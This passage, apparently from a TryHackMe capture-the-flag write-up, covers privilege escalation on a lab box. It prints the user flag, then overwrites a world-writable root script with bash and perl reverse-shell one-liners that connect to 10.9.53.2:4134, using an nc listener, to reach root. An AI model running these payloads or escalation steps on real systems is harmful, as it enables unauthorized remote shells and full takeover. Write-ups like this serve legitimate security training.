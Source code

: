 		![Screenshot-20200508012008-1040x369.png](./06b2c1e04108443b90985141207770d5.png)

		![Screenshot-20200508011954-714x129.png](./30d6028e589a45da9ffa3898d9ccf60f.png)
10. Shell popped
	1. Switch to tty: `SHELL=/bin/bash script -q /dev/null`
	2. `sudo -l`
		```
		www-data@THM-Chal:/$ sudo -l
		sudo -l
		Matching Defaults entries for www-data on THM-Chal:
		    env_reset, mail_badpass,
		    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
		
		User www-data may run the following commands on THM-Chal:
		    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
		```
	3. Get user.txt: `cat /home/itguy/user.txt`
		**User Flag:** `THM{63e5bce9271952aad1113b6f1ac28a07}`
	4. `cat backup.pl`
		```
		#!/usr/bin/perl
		
		system("sh", "/etc/copy.sh");
		```
	5. `ls -la /etc/copy.sh`: `-rw-r--rwx 1 root root 81 Nov 29 13:45 /etc/copy.sh`. Anyone can read/write/execute. Lets edit to create a reverse shell.
	6. [reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has `bash -i >& /dev/tcp/10.9.53.2/4134 0>&1`
	7. `nc -nvlp 4134` on host
	8. `echo "bash -i >& /dev/tcp/10.9.53.2/4134 0>&1" > /etc/copy.sh` on target
	9. `sudo /usr/bin/perl /home/itguy/backup.pl` on target
	10. Bash reverse shell did not work because the script runs as `sh` not `bash`
	11. Try `perl -e 'use Socket;$i="10.9.53.2";$p=4134;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` since we know the machine has perl.
	12. `echo "perl -e 'use Socket;$i=\"10.9.53.2\";\$p=4134;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(\$p,inet_aton(\$i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"` (Escaped all double quotes and all dollar signs)
	13. `sudo /usr/bin/perl /home/itguy/backup.pl` on target
	14. Root Shell achieved
		```